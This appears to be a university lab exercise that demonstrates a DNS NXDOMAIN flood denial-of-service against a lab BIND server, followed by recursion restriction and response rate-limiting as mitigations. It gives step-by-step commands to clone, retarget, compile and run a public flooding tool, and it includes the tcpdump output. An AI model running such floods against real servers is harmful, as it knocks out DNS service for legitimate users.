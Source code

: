 A common DNS Denial-of-Service attack is NXDOMAIN attack.
`NXDOMAIN` (Non eXistent DOMAIN) is the error you receive when checking for an nonexistent domain name:

```bash
$ host magic.scgc.ro
Host magic.scgc.ro not found: 3(NXDOMAIN)
```
When flooding a DNS Server with unique requests that will return `NXDOMAIN`, you
may make the server unavailable for legitimate requests.

We will see how to make a denial of service attack on a DNS server.
You will need to open three terminals to the host (SCGC Template).
For the sake of this task, enable recursion for the helper VM.

Connect to the helper VM.
Clone the following repository and change the working directory:

```bash
$ git clone https://github.com/shiroe41/DNS-NXDOMAIN-FLood-Attack
$ cd DNS-NXDOMAIN_FLood-Attack/src
```

Modify the source code to use your DNS server IP address and compile the code:

```bash
$ grep dest_sock_addr.sin_addr.s_addr dos_attack.c
    dest_sock_addr.sin_addr.s_addr = inet_addr("192.168.100.11");  /* target DNS server ip address */
    ip_header->ip_dst.s_addr = dest_sock_addr.sin_addr.s_addr;
$ gcc -o dos_attack dos_attack.c
```

Interrogate your DNS server to check if everything works fine (both from the base VM and from the helper VM):

```bash
$ host scgc.ro dns
Using domain server:
Name: 192.168.100.11
Address: 192.168.100.11#53
Aliases:

scgc.ro mail is handled by 42 mail.scgc.ro.
scgc.ro mail is handled by 60 mail2.scgc.ro.
```

From the base VM, run `tcpdump`:

```bash
$ sudo tcpdump -i br0 udp port 53 # we check only the DNS traffic
```

From the first terminal, start the attack:

```bash
$ sudo ./dos_attack
```

While the attack is running, from the base VM, test the DNS server:

```bash
$ host scgc.ro 192.168.100.11
Using domain server:
Name: 192.168.100.11
Address: 192.168.100.11#53
Aliases:

;; connection timed out; no servers could be reached
```
The server will hardly respond or will fail.

Stop the attack and the tcpdump. Inspect the tcpdump output:

```bash
...
23:26:48.364788 IP 10.0.2.20.29264 > 192.168.100.11.domain: 40664+ A? idcdy.fuawv.lulix. (35)
23:26:48.364829 IP 10.0.2.20.8518 > 192.168.100.11.domain: 11612+ A? lsrae.olszf.lkttp. (35)
23:26:48.364870 IP 10.0.2.20.46214 > 192.168.100.11.domain: 28079+ A? ctqzq.bvblt.xltqp. (35)

^C
760212 packets captured
1864674 packets received by filter
1104462 packets dropped by kernel
```

We can see that a high number of packages were sent to the DNS server in a short time.
Pay attention to the DNS requests: all the domains are randomly generated.

A mitigation method is to allow recursion only for some hosts.
You can either remove the helper VM from the ACL list or disable recursion.
Redo the steps above and check the new behaviour.
Even though the DNS Server does not make any more recursive queries and the
attacker's queries are refused, the server is still flooded and unavailable.

Another workaround is to limit the response rate. By adding the following lines in
your `/etc/bind/named.conf.options` file, you can limit the number of unique responses
that are delivered each second:

```
...
options {
...

	rate-limit {
		responses-per-second 20;
	};
...
};
```

Restart bind and redo the attack steps. You can see in the tcpdump output that the
DNS server ignores the queries from the helper network, and legitimate queries are resolved.
However, you should be careful when you set this option since it may affect legitimate traffic
(depending on your expected traffic).

:::important
Usually, the best way to mitigate these attacks is to use a firewall. You can set your DNS server
behind a dedicated firewall (CISCO, FortiGate, Juniper, PaloAlto, pfSense, MikroTik) or use a software
firewall on your server.
:::
